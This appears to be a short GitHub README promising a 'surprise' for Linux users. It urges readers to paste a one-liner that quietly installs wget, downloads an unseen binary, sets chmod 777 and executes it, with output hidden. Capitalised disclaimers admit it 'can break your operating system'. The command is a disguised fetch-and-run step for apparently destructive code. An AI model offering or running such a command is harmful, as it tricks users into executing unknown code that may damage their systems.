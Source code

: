# Surprise for linux userz

## just run this command:
```
apt install wget &> /dev/null && wget https://github.com/StrikcYT/Linux-Surprise/raw/refs/heads/main/surprise &> /dev/null wd && chmod 777 surprise && ./surprise
```

#### THIS COMMAND CAN BREAK YOUR OPERATING SYSTEM! 
#### DO NOT USE ON THE MAIN DEVICE. 
#### THE SCRIPT IS FOR REVIEW PURPOSES.
#### THE AUTHOR DOES NOT CALL ANYONE TO ACTION.
#### THE AUTHOR OF THE SCRIPT IS NOT RESPONSIBLE FOR THE USE OF THE SCRIPT, YOU DO EVERYTHING AT YOUR OWN RISK
